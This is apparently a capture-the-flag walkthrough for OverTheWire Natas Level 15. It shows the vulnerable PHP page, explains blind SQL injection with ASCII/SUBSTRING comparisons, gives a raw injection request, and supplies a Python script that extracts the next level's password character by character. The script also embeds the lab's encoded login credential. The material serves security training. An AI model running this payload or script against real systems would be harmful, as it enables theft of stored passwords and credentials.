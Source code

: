 # Level 15
Pushing things further, here we do Blind SQL injection. Also, we'll make a python script to do the same.

##  Quest
We are presented with a simple page that checks if a user exists or not.
![Level 15 Image](./images/Level15.png)

Backend code is similar to previous level with some important changes
```php
<?
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```
<br/><br/>
## Solution
From the source code, we can see that<br/>
 - Again unsanitized user input is inserted into query.<br/>
 - Although no output is displayed after query execution, we can make use of blind SQL injection.<br/>
 - When query succeeds, we get _user exists_, and when it fails, we get _user doesn't exist_ msg. we'll leverage this behaviour<br/>
 - Additionally, we can see that there is a debug parameter, which displays query on screen.<br/>
 - Lastly, there is a users table with username and password column.<br/>

Here is what was done.
1. Firstly, check if user `natas16` exist, it does, and we want its password.
2. Below is a log from my local linux lab to make use of `ascii` and `substring` function to smuggle password.
```sql
# Testing query in Lab
# Our Sample table
mysql> select * from books;
+---------+--------------+-----------+----------+
| book_id | name         | author    | released |
+---------+--------------+-----------+----------+
|       1 | Big Magic    | Elizabeth |        1 |
|       2 | Brown Farm   | AK        |        0 |
|       3 | Malgudi Days | R.K.N     |        1 |
+---------+--------------+-----------+----------+
3 rows in set (0.00 sec)

# We compare first character of author name with ascii code  # Below is a successful attempt
mysql> select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 69;
+---------+-----------+-----------+----------+
| book_id | name      | author    | released |
+---------+-----------+-----------+----------+
|       1 | Big Magic | Elizabeth |        1 |
+---------+-----------+-----------+----------+
1 row in set (0.00 sec)

# Below is an unsuccessful attempt
mysql> select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 70;
Empty set (0.00 sec)
```
Lets focus on second query
```sql
select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 69;
```
`SUBSTRING(author, 1, 1)` refers to the first character and `ASCII` converts that first character to its ASCII code.
So, Above query will return a row if the ASCII code of first character of the name of author is equal to 69, i.e. E

Now we build our payload accordingly.<br/>
Our payload -> `GET /index.php?username=natas16" AND ASCII(SUBSTRING(password,1,1))=65;#&debug=true HTTP/1.1`
Just like above, we are checking if the first character of password of user natas16 has ascii code of 65 .i.e. its A
Below we send this to Burp, our failed attempt

![Level 15 solution](./images/Level15_solution.png)

Our successfull attempt, Now we know, our password begins with word 'W', ascii code 87.

![Level 15.1 solution](./images/Level15.1_solution.png)

Now instead of doing every character one by one, we use Burp intruder. we manually change the `password(1,1)` -> `password(2,1)` for finding second character and so on. This process will repeat till we find all characters. Here password is 32 characters long. On 33rd attempt, intruder will not find any character and we know that we are done.

![Level 15.2 solution](./images/Level15.2_solution.png)

Payload settings
![Level 15.3 solution](./images/Level15.3_solution.png)

We found the second password character.
![Level 14.4 solution](./images/Level15.4_solution.png)

We repeat this process 32 times to get the complete password for next Level. <br/>It took me about an hour to smuggle password char by char with Burp community addition, so i decided to write a script to do the same, just for the fun of it.


```python
 1 #!/usr/bin/env python3
 2
 3 import requests
 4
 5 headers = {'Authorization': 'Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=='}
 6 proxy = {'http': 'http://localhost:8080'}
 7
 8 password = ""
 9 pos = 1
10
11 while True:
12     if password:
13         payload = f'natas16" AND password = \'{password}\' ;#'
14         data = {'username': payload}
15         response = requests.post('http://natas15.natas.labs.overthewire.org/', data=data, headers=headers, proxies=proxy)
16         if response.status_code == 200  and "This user exists" in response.text:
17             print(f"\r{password}", end='', flush=True)
18             break
19
20     for i in range(33,128):
21         print(f"\r{password}{chr(i)}", end='', flush=False)
22         payload = f'natas16" AND ASCII(SUBSTRING(password,{pos},1)) = {i};#'
23         data = {'username': payload}
24         response = requests.post('http://natas15.natas.labs.overthewire.org/', data=data, headers=headers, proxies=proxy)
25         if response.status_code == 200:
26             if 'This user exists.' in response.text:
27                 password += chr(i)
28                 print(f"\r{password}{chr(i)}", end='', flush=True)
29                 #print(password)
30                 break
31             elif "This user doesn't exist" in response.text:
32                 continue
33             elif i == 127:
34                 break
35             else:
36                 print('Program flow should not reach here. Exiting')
37                 #return 2
38         else:
39             print(f"Status code: {response.status}")
40     pos += 1
41 # todo: refactor the code
```

I Added a cool effect that displays the found characters and also searches for next character.

Here is the script in action
[![asciicast](https://asciinema.org/a/ZCwEXkII8MAP1uguwL5OJDLjN.svg)](https://asciinema.org/a/ZCwEXkII8MAP1uguwL5OJDLjN)


<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
